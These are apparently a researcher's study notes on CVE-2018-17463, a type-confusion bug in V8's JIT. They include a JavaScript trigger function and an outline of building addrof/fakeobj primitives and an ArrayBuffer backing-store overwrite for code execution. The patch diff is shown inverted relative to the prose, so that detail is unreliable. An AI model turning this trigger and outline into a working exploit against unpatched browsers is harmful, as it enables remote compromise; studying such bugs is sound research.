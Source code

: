 ## CVE-2018-17463

### Code audit: near the buggy source code:
> Side effects can be thought of change in the structure of the object while a builtin/ function gets excecuted.

```
#define CACHED_OP_LIST(V)                                            \
      ...                                                                \
      V(CreateObject, Operator::kNoWrite, 1, 1)                          \
      ...
```
- Assumes that there will be no potential side effects (kNoWrite: don't write to the effect chain).

#### Lowering:
- JSGenericLowering:
    - place where the lowering of the js code happens, LowerJSCreateObject is our vulnerable lowering method.
- OptimizeAsPrototype: control flow of the program reaches here in which the proto-type object may be modified during optimization.
- CreateObjectWithoutProperties: 
    - ``let properties: NameDictionary|SwissNameDictionary|EmptyFixedArray;`` sets the propety to a named dictionary.
    - handles switch case for the prototype(null, JSReciever, JSAny).
    - null: 
        - assign the map with a slow object with null prototype.
        - if `V8_ENABLE_SWISS_NAME_DICTIONARY` is enabled the properties will be set to a Named Dictionary.
    - JSReceiver:
        - properties will be a fixed_array.
        - assuming the map will be the original function's map. (no change).
    - JSAny:
        - do some stuff during the runtime. idc :D
- ObjectCreate:
    - calls ``GetObjectCreateMap``
        - calls ``OptimizeAsPrototype`` : this is the side effect function.
- OptimizeAsPrototype / TransitionToPrototype:
    - turns the given object as a prototype. 

#### Bug:
    - During the lowering the redundacy elimination will remove the checkmap speculation guard. But after the `OptimizeAsPrototype` the map indeed gets changed.
    - so we take advantage of this new map change. Which changed our propeties of out of line from a fixedArray to a NamedDictionary

#### Structure:
Base Idea:

```
    CheckHeapObject o
    CheckMap o, map1
    r0 = Load [o + 0x18]

    CheckHeapObject o
    CheckMap o, map1   <= will be removed 
    r1 = Load [o + 0x20]

    r2 = Add r0, r1
    CheckNoOverflow
    Return r2    
```

### Exploitation:

```
    function hax(o) {
        // Force a CheckMaps node.
        o.a;

        // Cause unexpected side-effects.
        Object.create(o);

        // Trigger type-confusion because CheckMaps node is removed.
        return o.b;
    }

    for (let i = 0; i < 100000; i++) {
        let o = {a: 42};
        o.b = 43;           // will be stored out-of-line.
        hax(o);
    }
```

- Since we know some pairs of overlap is there between fixedArray and NameDictionary, we use that to make the type feedback store some double and make it get a leak from another property.
- I wasted a lot of time in the step where you leak the address using the type confusion:
    - First of all, after a array is created and a property is modified weirdly the position in the memory changes. This happens when the property is not already there.
    - So Like the blog said a better method was to store all the property values in a seperate array and create the object using it.
- Now with type confusion you can construct addrof and fakeobj to get RCE.

- using the inline properties in prop1 and arraybuffer for p2 we can overwrite the backingstore of the ArrayBuffer.

#### Idea:

- Using addrof primitive get a object address.
- Change the backing store of Array buffer to get arb read/write.

### How the bug was patched:
    - Main reason the bug was there is because they assumed the objectCreate is not going to have any side effects so `kNoWrite` was the mode given for it. They changed it to `kNoProperties` which will make sure that it will have side effects.
```
-  V(CreateObject, Operator::kNoProperties, 1, 1)                         \
+  V(CreateObject, Operator::kNoWrite, 1, 1)                              \
```

### Additional Diff between before and after:

#### Before the optimize as prototype:
```
DebugPrint: 0x1c463820e241: [JS_OBJECT_TYPE]
 - map: 0x1f935468c9d1 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0f1969e046d9 <Object map = 0x1f93546822f1>
 - elements: 0x1b80bc482cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x1b80bc482cf1 <FixedArray[0]> {
    #x: 1337 (data field 0)
    #y: 1338 (data field 1)
 }
0x1f935468c9d1: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 40
 - inobject properties: 2
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x1f935468c981 <Map(HOLEY_ELEMENTS)>
 - prototype_validity cell: 0x376181e82201 <Cell value= 1>
 - instance descriptors (own) #2: 0x1c463820e2a1 <DescriptorArray[8]>
 - layout descriptor: (nil)
 - prototype: 0x0f1969e046d9 <Object map = 0x1f93546822f1>
 - constructor: 0x0f1969e04711 <JSFunction Object (sfi = 0x376181e8f991)>
 - dependent code: 0x1b80bc482391 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```

#### After the Optimize as prototype:
```
DebugPrint: 0x1c463820e241: [JS_OBJECT_TYPE]
 - map: 0x1f935468ca71 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x0f1969e046d9 <Object map = 0x1f93546822f1>
 - elements: 0x1b80bc482cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - properties: 0x1c463820e2f1 <NameDictionary[29]> {
   #x: 1337 (data, dict_index: 1, attrs: [WEC])
   #y: 1338 (data, dict_index: 2, attrs: [WEC])
 }
0x1f935468ca71: [Map]
 - type: JS_OBJECT_TYPE
 - instance size: 40
 - inobject properties: 2
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - dictionary_map
 - may_have_interesting_symbols
 - prototype_map
 - prototype info: 0x0f1969e234a9 <PrototypeInfo>
 - prototype_validity cell: 0x376181e82201 <Cell value= 1>
 - instance descriptors (own) #0: 0x1b80bc482321 <DescriptorArray[2]>
 - layout descriptor: (nil)
 - prototype: 0x0f1969e046d9 <Object map = 0x1f93546822f1>
 - constructor: 0x0f1969e04711 <JSFunction Object (sfi = 0x376181e8f991)>
 - dependent code: 0x1b80bc482391 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```

- obervation: Objects are passed by reference and values are passed by value in js.

### Hash Table:

- hashing is based on randomness. First time seeing thing shit...
```
function GetObjectHash(key) {
  let hash = key[hashCodeSymbol];
  if (IS_UNDEFINED(hash)) {
    hash = (MathRandom() * 0x40000000) | 0;
    if (hash === 0) hash = 1;
    key[hashCodeSymbol] = hash;
  }
  return hash;
}
```
